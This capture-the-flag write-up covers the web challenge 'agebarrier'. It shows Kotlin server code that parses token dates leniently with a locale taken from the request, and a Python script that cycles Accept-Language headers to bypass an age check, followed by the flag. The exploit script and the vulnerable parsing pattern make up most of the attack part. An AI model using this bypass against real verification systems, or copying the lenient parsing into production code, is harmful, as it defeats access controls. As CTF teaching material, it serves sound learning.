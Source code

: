 
````markdown
# agebarrier

**Category:** Web  
**Author of Challenge:** 0xle  
**Team:** Davidslingshot  

---

## 📌 Challenge Description

The youngsters are easily bypassing age verification systems nowadays, so I made my very own bleeding-edge and future-proof age verification system. Surely, it's impenetrable?

---

## 🔍 Vulnerability

```kotlin
@Service
class DefaultDateTimeFormatterProviderService : DateTimeFormatterProviderService {
    override fun get(): DateTimeFormatter {
        return DateTimeFormatter.ofLocalizedDate(FormatStyle.SHORT)
            .withLocale(LocaleContextHolder.getLocale())
            .withResolverStyle(ResolverStyle.LENIENT)
    }
}
val formatter = DateTimeFormatter.ofLocalizedDate(FormatStyle.SHORT)
    .withLocale(LocaleContextHolder.getLocale())        // uses request locale (Accept-Language)
    .withResolverStyle(ResolverStyle.LENIENT)          // lenient parsing

val issued = LocalDate.parse(claims["iss"], formatter)
````

Normally, when you visit the website, it takes the **current date** and stores it inside a **JWT token**, then sends that token back.
Example token for `30-08-2025`:

```
eyJlcGsiOnsia3R5IjoiT0tQIiwiY3J2IjoiWDI1NTE5IiwieCI6IllCU0lfLWlsLVplN25naGZOT1dpV1lKczVQVHB5YUlKYnpuTk5fNmluajQifSwiZW5jIjoiQTI1NkdDTSIsImFsZyI6IkVDREgtRVMrQTI1NktXIn0.nWiW0Bjgb5x7wQWhXjJfe5NfcFDwKB8rqg6n2z_gUk3RkeXQFmz2zA.VY4BdY_vmGbCYZzP.9TbMpq7CnQPcY1Ca7jPORIv4Cr5eXQhIOUYs22h7rStK4zaaCi6hkpIb08rqHSoAiJmI6ZaEM934TyXrU-iPbNfxDYas26-lYJVKzESYfhgijLh2YVJr-vv_VtJzK8iFZv5nS9bf5sqHih0AlXlm87dFLcRQ49e7VMIy4yZf_SexZWw.OsEkYiAH1k9yN4J7vfb2TA
```

---

## ⚡ Exploit Idea

The exploit comes from how the **server parses dates**.
It uses `DateTimeFormatter.ofLocalizedDate(FormatStyle.SHORT)` **with the locale taken from the `Accept-Language` header**.
Because parsing is **lenient**, different locales interpret the same short date differently.

### 1. 🇺🇸 USA (`en-US`)

* Pattern: `M/d/yy`
* Example: `8/30/25`
* Ambiguity: year `25` → can be **2025, 1925, or 0025** depending on parsing.

### 2. 🇨🇳 China (`zh-CN`)

* Pattern: `yy/M/d`
* Example: `25/8/30`
* Ambiguity: year `25` → can be misinterpreted as **year 25 AD**.

By choosing the right `Accept-Language`, the server thinks the token is **ancient/expired**, bypassing checks.

---

## 🔨 Exploit Script

We brute force locales to find the one that tricks the server into accepting our token.

```python
import requests
import urllib3
import sys

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

BASE = "https://d0172ccd-4c60-4154-afd5-f8b291fef6c7.chall.nnsc.tf"  # change if needed
TIMEOUT = 10

def issue_token(session, issue_locale="en-US"):
    headers = {"Accept-Language": issue_locale}
    r = session.post(f"{BASE}/tokens", headers=headers, timeout=TIMEOUT, verify=False)
    r.raise_for_status()
    return r.json()["token"]

def try_claim(session, token, product_id=3, accept_language=None):
    headers = {}
    if accept_language:
        headers["Accept-Language"] = accept_language
    payload = {"token": token}
    r = session.post(f"{BASE}/products/{product_id}", json=payload, headers=headers, timeout=TIMEOUT, verify=False)
    return r

def main():
    s = requests.Session()
    print("[*] Issuing token...")
    try:
        token = issue_token(s, issue_locale="en-US")
    except Exception as e:
        print("[-] Failed to issue token:", e)
        sys.exit(1)
    print("[+] Got token (length {})".format(len(token)))

    locales = [
        "en-US", "en-GB", "fr-FR", "de-DE", "sv-SE", "fi-FI", "nl-NL",
        "it-IT", "es-ES", "pt-BR", "ru-RU", "zh-CN", "ja-JP", "ar-SA",
        "ko-KR", "da-DK", "nb-NO", "pl-PL", "cs-CZ"
    ]

    print("[*] Trying claim with different Accept-Language values...")
    for loc in locales:
        try:
            r = try_claim(s, token, product_id=3, accept_language=loc)
            status = r.status_code
            if status == 200:
                try:
                    body = r.json()
                except Exception:
                    body = r.text
                print(f"[!!!] Success with Accept-Language: {loc}")
                print("Response:", body)
                return
            else:
                print(f"[-] {loc}: HTTP {status}")
        except Exception as e:
            print(f"[-] {loc}: request failed ({e})")

    print("[*] None of the tested locales succeeded. Try more locales or tweak issuance locale.")

if __name__ == "__main__":
    main()
```

---

## 🏁 Flag

```
NNS{D4tes_4nd_t1m3z0n3s_ar3_h4rd_06993d8ad651}
```

---

